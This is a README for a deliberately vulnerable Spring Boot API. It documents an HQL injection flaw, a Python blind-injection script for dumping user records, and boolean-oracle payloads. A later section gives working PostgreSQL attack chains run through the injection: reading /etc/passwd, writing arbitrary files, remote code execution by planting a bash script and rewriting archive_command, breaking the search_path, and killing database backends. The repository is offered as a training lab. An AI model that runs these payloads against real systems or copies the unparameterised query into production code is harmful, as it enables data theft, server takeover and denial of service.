




# HQLi Vulnerable REST API & Enumeration Script

This project demonstrates a REST API vulnerable to Hibernate Query Language (HQL) injection and includes a Python script that exploits the boolean oracle to enumerate user IDs and field values from the `User1` entity. Much of this project was AI guided (thanks ChatGPT!), using an iterative approach to refine the code and the exploit script with the occasional tweak by me :).

## Prerequisites

- Java 8 or higher
- Maven
- Python 3.x

## Setup & Run the Vulnerable API

1. **Clone the repository** (if not already done):
   ```powershell
   git clone git@github.com:pdstat/hqli.git
   cd hqli
   ```

2. **Run the API:**
   ```powershell
   ./mvnw spring-boot:run
   ```
   Or, on Windows:
   ```powershell
   .\mvnw.cmd spring-boot:run
   ```
   The API will start on `http://localhost:8443`.

## HQL injection in AgentRepository

The vulnerability is in `AgentRepository.checkValidAgent`:

```
private static final String CHECK_AGENT_EXISTS =
      "select count(*) from com.pdstat.hqli.entity.User1 usr " +
      "where usr.userId = '%s' or usr.altUserId = '%s'";

String hql = String.format(CHECK_AGENT_EXISTS, agentCode, agentCode);
Long count = em.createQuery(hql, Long.class).getSingleResult();
```

- The user-controlled `agentCode` is interpolated directly into the HQL string without parameters.
- An attacker can inject quotes and boolean conditions to alter the WHERE clause.
- The API returns different responses based on whether any rows match:
   - If count > 0: HTTP status code in JSON is `"400"` with payload message `"Agent Already Registered"`.
   - If no rows: JSON has status `"401"` and empty payload.
   - If HQL breaks (syntax error), the exception text is returned in `message` with status `"401"`.

This behavior creates a boolean oracle suitable for blind HQLi: the attacker can craft expressions so the query returns rows when the guessed condition is true and none when false.

### How the script builds payloads and what HQL executes

The Python script wraps boolean expressions in a tautology/falsity frame:

- Wrapper: `0' or (<EXPR>) or '1'='2`
- Exists helper: `exists ( from <Entity> u where <COND> )`

Given the repository query template:

```
select count(*) from com.pdstat.hqli.entity.User1 usr
where usr.userId = '%s' or usr.altUserId = '%s'
```

When the script sends an `agentCode` like `0' or (exists ( from com.pdstat.hqli.entity.User1 u where 1=1 )) or '1'='2`, the final HQL becomes:

```
select count(*) from com.pdstat.hqli.entity.User1 usr
where usr.userId = '0' or (exists ( from com.pdstat.hqli.entity.User1 u where 1=1 )) or '1'='2'
    or usr.altUserId = '0' or (exists ( from com.pdstat.hqli.entity.User1 u where 1=1 )) or '1'='2'
```

Below are representative payloads per phase (shown pre-URL-encoding; the client encodes automatically):

- Oracle probe (false):
   - Payload: `0' or (exists ( from com.pdstat.hqli.entity.User1 u where 1=0 )) or '1'='2`
   - Effect: no matches -> JSON statusCode `"401"`.

- Oracle probe (true):
   - Payload: `0' or (exists ( from com.pdstat.hqli.entity.User1 u where 1=1 )) or '1'='2`
   - Effect: matches -> JSON statusCode `"400"` with "Agent Already Registered".

- Phase 1: userId prefix guess (e.g., does any `userId` start with `60`?)
   - Payload: `0' or (exists ( from com.pdstat.hqli.entity.User1 u where u.userId like '60%' )) or '1'='2`
   - Final HQL inlines this payload twice (for both `userId` and `altUserId`) as shown above; any row starting with 60 yields `"400"`.

- Phase 2: field presence for a specific user (is `emailId` present for `60002650`?)
   - Payload: `0' or (exists ( from com.pdstat.hqli.entity.User1 u where u.userId = '60002650' and u.emailId is not null )) or '1'='2`

- Phase 2: field length lower bound (is `length(emailId) >= 5`?)
   - Payload: `0' or (exists ( from com.pdstat.hqli.entity.User1 u where u.userId = '60002650' and u.emailId is not null and length(u.emailId) >= 5 )) or '1'='2`

- Phase 3: field value prefix brute-force (does `emailId` start with `jo`?)
   - Payload: `0' or (exists ( from com.pdstat.hqli.entity.User1 u where u.userId = '60002650' and u.emailId like 'jo%' )) or '1'='2`

Note: The script safely doubles embedded quotes in guessed strings when needed (SQL-style `'` -> `''`), then the HTTP client URL-encodes the parameter.

## Sample requests to /checkvalidagent

Endpoint: `GET /checkvalidagent?agentCode=...`

Below are examples using PowerShell and curl. Replace the IDs to match users you created.

1) User does not exist (oracle false case)

PowerShell:
```powershell
Invoke-RestMethod -Uri "http://localhost:8443/checkvalidagent?agentCode=00000000" -Method Get
```

curl:
```bash
curl -k "http://localhost:8443/checkvalidagent?agentCode=00000000"
```

Expected JSON shape (no match):
```json
{"payload":{},"msgInfo":{"statusCode":"401","msgStatus":"failure","message":null}}
```

2) User exists (oracle true case)

PowerShell:
```powershell
Invoke-RestMethod -Uri "http://localhost:8443/checkvalidagent?agentCode=60002650" -Method Get
```

curl:
```bash
curl -k "http://localhost:8443/checkvalidagent?agentCode=60002650"
```

Expected JSON shape (match):
```json
{"payload":{"statusMsg":{"statusMsg":"Agent Already Registered","pageName":"NewUser"}},"msgInfo":{"statusCode":"400","msgStatus":"failure","message":"Failed to register user"}}
```

3) Break the HQL with a single quote (syntax error)

PowerShell:
```powershell
Invoke-RestMethod -Uri "http://localhost:8443/checkvalidagent?agentCode=60002650'" -Method Get
```

curl:
```bash
curl -k "http://localhost:8443/checkvalidagent?agentCode=60002650'"
```

The repository catches the exception and returns it in the JSON `message` with status `"401"`.

4) Fix/abuse the HQL with a tautology (injection)

PowerShell:
```powershell
Invoke-RestMethod -Uri "http://localhost:8443/checkvalidagent?agentCode=0'%20or%20'1'%3d'1" -Method Get
```

curl:
```bash
curl -k "http://localhost:8443/checkvalidagent?agentCode=0'%20or%20'1'%3d'1"
```

This closes the quote and appends `or '1'='1'`, making the WHERE clause always true, so the API responds as if a user exists (status `"400"`).

## Creating Example Users

The database is seeded with 10 users, you can however add more via a handy create endpoint. You can use `curl` or PowerShell:

### Using curl
```bash
curl -k -X POST "http://localhost:8443/create" \
   -H "Content-Type: application/json" \
   -d '{
      "userId": "60002650",
      "altUserId": "ALT001",
      "dob": "1990-01-01",
      "password": "pass1234",
      "firstName": "John",
      "lastName": "Doe",
      "email": "john.doe@example.com"
   }'

curl -k -X POST "http://localhost:8443/create" \
   -H "Content-Type: application/json" \
   -d '{
      "userId": "60002925",
      "altUserId": "ALT002",
      "dob": "1992-02-02",
      "password": "pass5678",
      "firstName": "Jane",
      "lastName": "Doe",
      "email": "jane.doe@example.com"
   }'
```

### Using PowerShell
```powershell
$body1 = '{"userId": "60002650", "altUserId": "ALT001", "dob": "1990-01-01", "password": "pass1234", "firstName": "John", "lastName": "Doe", "email": "john.doe@example.com"}'
Invoke-RestMethod -Uri "http://localhost:8443/create" -Method Post -Body $body1 -ContentType "application/json"

$body2 = '{"userId": "60002925", "altUserId": "ALT002", "dob": "1992-02-02", "password": "pass5678", "firstName": "Jane", "lastName": "Doe", "email": "jane.doe@example.com"}'
Invoke-RestMethod -Uri "http://localhost:8443/create" -Method Post -Body $body2 -ContentType "application/json"
```

After creating these users, you can run the Python script to enumerate them.

## Running the Python Enumeration Script

1. **Install Python dependencies:**
   If your script requires any packages (e.g., `requests`), install them:
   ```powershell
   pip install requests
   ```

2. **Run the script (basic):**
   ```powershell
   python .\hqli-all.py --entity com.pdstat.hqli.entity.User1 --fields .\fields.txt
   ```
   The script uses boolean-based HQLi to discover user IDs and brute-force selected properties.

3. Optional: enable debug logging of requests
   ```powershell
   python .\hqli-all.py --entity com.pdstat.hqli.entity.User1 --fields .\fields.txt --debug
   ```

4. Optional: ask AI to suggest additional likely fields (requires an OpenAI key)
   ```powershell
   $env:OPENAI_API_KEY = "<your key here>"
   python .\hqli-all.py --entity com.pdstat.hqli.entity.User1 --fields .\fields.txt --ai-mode --ai-field-count 15
   ```

## Script feature flags (hqli-all.py)

- `--entity <name>` (required): HQL entity to target, FQN or simple name (e.g., `com.pdstat.hqli.entity.User1`).
- `--fields <path>` (required): Path to a text wordlist of field names to try; one per line. Lines can contain commas/whitespace and `#` comments.
- `--entity-count <n>`: Number of user IDs to enumerate; default 2.
- `--debug`: Verbose request log line per probe.
- `--ai-mode`: Use OpenAI to suggest extra likely fields based on the entity name; requires `OPENAI_API_KEY` in the environment.
- `--ai-field-count <n>`: When `--ai-mode` is set, how many field names to fetch (default 10, clamped 1..50).
- `--id-field <name>`: Override: name of the identifier property (e.g., `userId`, `agentId`). If omitted, the script tries to discover it.
- `--count-rows`: Print total row count for --entity and exit.
- `--detect-db`: Detect database vendor and version via `function()` probes.
- `--proxy <url>`: Use an HTTP proxy (e.g., `http://<proxy_host>:<proxy_port>`). 

Other tuning knobs inside the script:
- `URL`, `PROXY`, `VERIFY_TLS`, `HEADERS`: HTTP settings for the target endpoint.
- `USERID_MAXLEN`, `USERID_CHARSET`: User ID discovery parameters.
- `DEFAULT_MAXLEN`, `FIELD_MAXLEN`, `CHARSET`: Field value brute-force parameters.
- `SLEEP_BETWEEN`: Throttle between requests.

The script prints a total request counter at the end of a run to help understand traffic volume.

## Run with Docker Compose (H2/MySQL/PostgreSQL/MariaDB/SQL Server/Oracle/HSQLDB/Derby/SQLite)

You can spin up the app against different databases using Docker:

- H2 (in-memory, default config):
   - Starts the app on http://localhost:8443
   - JPA `ddl-auto=create` ensures schema is created at startup
   ```powershell
   docker compose up --build app-h2
   ```

- MySQL 8:
   - DB on localhost:3306, app on http://localhost:8443
   - App is configured via env vars to use MySQL and `ddl-auto=create`
   ```powershell
   docker compose up --build mysql app-mysql
   ```

- PostgreSQL 16:
   - DB on localhost:55432 (mapped to container 5432), app on http://localhost:8443
   - App is configured via env vars to use PostgreSQL and `ddl-auto=create`
   ```powershell
   docker compose up --build postgres app-postgres
   ```

- MariaDB 11:
   - DB on localhost:3307, app on http://localhost:8443
   ```powershell
   docker compose up --build mariadb app-mariadb
   ```

- SQL Server 2022:
   - DB on localhost:1433, app on http://localhost:8443
   - Default SA password is set (SA_PASSWORD=Str0ngPwd!), app user hqli/hqli created by init.sql
   ```powershell
   docker compose up --build mssql mssql-init app-mssql
   ```

- Oracle XE 21c:
   - DB on localhost:11521 (container 1521), app on http://localhost:8443
   - App user HQLI/hqli configured via env vars
   ```powershell
   docker compose up --build oracle app-oracle
   ```

- HSQLDB (embedded file database):
   - App uses a mounted volume with the DB files; app on http://localhost:8443
   ```powershell
   docker compose up --build app-hsqldb
   ```

- Apache Derby (embedded file database):
   - App uses a mounted volume with the DB files; app on http://localhost:8443
   ```powershell
   docker compose up --build app-derby
   ```

- SQLite (file database):
   - Sidecar creates a volume with /data/hqli.db; app on http://localhost:8443
   ```powershell
   docker compose up --build sqlite app-sqlite
   ```

Stop everything with:
```powershell
docker compose down -v
```

## Other attack vectors

Thanks to HQL's `function()` support, you can also try to detect the database vendor and version (see the `--detect-db` flag), and potentially exploit further via SQL functions. Here are some examples I've discovered across the different DBs supported by this project.:

### PostgreSQL

### File read

Similar to how this projects script exfiltrates data via boolean HQLi, you can also read files from the filesystem using the `pg_read_file` function. For example, to read the `/etc/passwd` file, you can use the following payload:

True: (char at position 1 is 'r')
`x' or function('substring', function('pg_read_file','/etc/passwd'), 1, 1) = 'r' or '1'='2`

True: (char at position 2 is 'o')
`x' or function('substring', function('pg_read_file','/etc/passwd'), 2, 1) = 'o' or '1'='2`

True: (char at position 3 is 'o')
`x' or function('substring', function('pg_read_file','/etc/passwd'), 3, 1) = 'o' or '1'='2`

True: (char at position 4 is 't')
`x' or function('substring', function('pg_read_file','/etc/passwd'), 4, 1) = 't' or '1'='2`

etc.

### File write

#### Writing 'large objects' to the filesystem

In PostgreSQL you can write files to the filesystem using the `lo_export` function, which exports a large object to a file.

> To export a large object into an operating system file, call

`int lo_export(PGconn *conn, Oid lobjId, const char *filename);`
>The lobjId argument specifies the OID of the large object to export and the filename argument specifies the operating system name of the file. Note that the file is written by the client interface library, not by the server. Returns 1 on success, -1 on failure.

These objects exist in the `pg_largeobject` table. From the function signature above we would need to know the OID of the large object we want to export.

However it seems it's possible to create a large object from a string using the `lo_from_bytea` function and then stuff its OID into a Global Unified Config (GUC) variable.

For example the following payload

`x' OR function('set_config','attk.loid',function('concat', function('lo_from_bytea', 0, function('decode','68656c6c6f0a','hex')), ''),false) IS NOT NULL OR '1'='2`

Creates a GUC variable called `attk.loid` with the OID of a large object containing the string "hello\n".

And then the export

`x' OR function('lo_export',function('int4', function('current_setting','attk.loid')),'/tmp/dump.bin') >= 0 OR '1'='2`

Will write the contents of the large object to a file called `/tmp/dump.bin` on the filesystem of the PostgreSQL server.



This shows that we have the ability to write arbitrary files to the filesystem in directories that the PostgreSQL server has write access to. This could be used to write web shells or other malicious files if the PostgreSQL server has access to a web root directory.

This took me down another rabbit hole! So it seems from this RCE can be achieved. (Note: this example assumes `archive_mode` is enabled in PostgreSQL, which it is in the Docker Compose config for PostgreSQL in this project).

1. Create a large object containing a base64 encoded script `#!/usr/bin/bash\nid > /tmp/pwned\n`
   
`x' OR function('set_config','attk.loid',function('concat',function('lo_from_bytea',0,function('decode','IyEvdXNyL2Jpbi9iYXNoCmlkID4gL3RtcC9wd25lZAo=','base64')), ''), false) IS NOT NULL OR '1'='2`

2. Write the large object to a file called `/tmp/p.sh`

`x' OR function('lo_export',function('int4', function('current_setting','attk.loid')),'/tmp/p.sh') >= 0 OR '1'='2`

3. Store a new `archive_command` in a GUC variable (`archive_command = 'bash /tmp/p.sh %p %f'\n`)

`x' OR function('set_config','attk.loid',function('concat',function('lo_from_bytea',0,function('decode','YXJjaGl2ZV9jb21tYW5kID0gJ2Jhc2ggL3RtcC9wLnNoICVwICVmJwo=','base64')), ''), false) IS NOT NULL OR '1'='2`

4. Read the LO OID from the session GUC, casts it to an int, and uses lo_export to overwrite $PGDATA/postgresql.auto.conf

`x' OR function('lo_export',function('int4', function('current_setting','attk.loid')),function('concat', function('current_setting','data_directory'), '/postgresql.auto.conf')) >= 0 OR '1'='2`

5. Reload the config

`x' OR function('pg_reload_conf') = true OR '1'='2`

6. Trigger a WAL segment switch to execute the archive command

`x' OR function('pg_switch_wal') IS NOT NULL OR '1'='2`



### Integrity and availability attacks

#### Search Path Manipulation via `set_config`

With the thanks of AI I discovered the existence of a PostgreSQL property called `search_path`, which lead to some interesting attack vectors affecting both integrity and availability. 

The PostgreSQL documentation has this to say about `search_path`:

> 5.10.3. The Schema Search Path 
Qualified names are tedious to write, and it's often best not to wire a particular schema name into applications anyway. Therefore tables are often referred to by unqualified names, which consist of just the table name. The system determines which table is meant by following a search path, which is a list of schemas to look in. The first matching table in the search path is taken to be the one wanted. **If there is no match in the search path, an error is reported, even if matching table names exist in other schemas in the database.**

>The ability to create like-named objects in different schemas complicates writing a query that references precisely the same objects every time. It also opens up the potential for users to change the behavior of other users' queries, maliciously or accidentally. Due to the prevalence of unqualified names in queries and their use in PostgreSQL internals, adding a schema to search_path effectively trusts all users having CREATE privilege on that schema. **When you run an ordinary query, a malicious user able to create objects in a schema of your search path can take control and execute arbitrary SQL functions as though you executed them.**

To be able to set the parameter usually the method to use is with a SQL `SET` command. Here's another snippet from the PostgreSQL docs:

> `SET search_path TO myschema;`
> Then we no longer have access to the public schema without explicit qualification.

However, the `function()` support in HQL allows us to call the `set_config` function, which can be used to set the `search_path` parameter. The function signature is as follows:

`set_config(setting_name text, new_value text, is_local boolean) returns text`

Taking a step back for a minute, using the `checkvalidagent` endpoint in this project with a user that exists. For a request to `http://127.0.0.1:8443/checkvalidagent?agentCode=60002650`

Returns a response of

```json
{
    "payload": {
        "statusMsg": {
            "statusMsg": "Agent Already Registered",
            "pageName": "NewUser"
        }
    },
    "msgInfo": {
        "message": "Failed to register user",
        "msgStatus": "failure",
        "statusCode": "400"
    }
}
```

As an attacker we can use the `function('set_config',...)` to set the `search_path` to a non-existent schema, which will cause the query to fail with an error indicating that the `users` relation does not exist. This is because the `users` table is in the `public` schema by default, and by changing the `search_path`, we are effectively hiding it from the query. E.g. a request to `http://127.0.0.1:8443/checkvalidagent?agentCode=0'+OR+function('set_config','search_path','attk',+false)+=+'attk'+OR+'1'='2` will break all further requests for this session. The session being the connection to the database, which is reused by the application. Re-requesting `http://127.0.0.1:8443/checkvalidagent?agentCode=60002650` now returns

```json
{
    "payload": {
        "statusMsg": null
    },
    "msgInfo": {
        "message": "org.hibernate.exception.SQLGrammarException: JDBC exception executing SQL [select count(*) from users u1_0 where u1_0.user_id='60002650' or u1_0.alt_user_id='60002650'] [ERROR: relation \"users\" does not exist\n  Position: 22] [n/a]",
        "msgStatus": "failure",
        "statusCode": "401"
    }
}
```

Woops!

#### Killing PostgreSQL with `pg_terminate_backend`

To kill a PostgreSQL backend process, you can use the `pg_terminate_backend` function. This function requires the process ID (PID) of the backend you want to terminate. Here's an example of how to use it:

```sql
SELECT pg_terminate_backend(<pid>);
```

You can find the PID of a backend process by querying the `pg_stat_activity` view:

```sql
SELECT pid, usename, application_name, client_addr, state
FROM pg_stat_activity;
```

I tested this out by first using the `psql` command line tool to connect to the PostgreSQL database via the terminal of the running Docker container. Then I ran the following query to find some active connections:

```sql
SELECT pid, usename, application_name, client_addr, state
FROM pg_stat_activity;
```

I tested this out by first using the `psql` command line tool to connect to the PostgreSQL database via the terminal of the running Docker container. Then I ran the following query to find some active connections:

```sql
SELECT pid, usename, application_name
FROM pg_stat_activity;
```



The process with PID `990` is my connection from `psql`. I can terminate this connection by sending the following payload to the vulnerable application:

`x' or function('pg_terminate_backend',  990) = true or '1'='2`

From the terminal I then tried to re-run the query and saw the my connection had been terminated:



It would be quite simple to permanently fuzz PID's and create a permanent denial of service condition on the database server.

Note the docs has the following to say about this function:

> You can execute this against another backend that has exactly the same role as the user calling the function. In all other cases, you must be a superuser.

This worked for me as I connected to the database as the `hqli` user and the backend processes were also running as `hqli`.

## Project Structure
- `src/main/java/com/pdstat/hqli/` - Java source code for the REST API
- `hqli-all.py` - Python enumeration script
- `pom.xml` - Maven build file

## References
- [Spring Boot Documentation](https://spring.io/projects/spring-boot)
- [SQL/HQL Injection Overview](https://owasp.org/www-community/attacks/SQL_Injection)

---
**Disclaimer:** This project is for educational and testing purposes only. Do not use on systems without proper authorization.
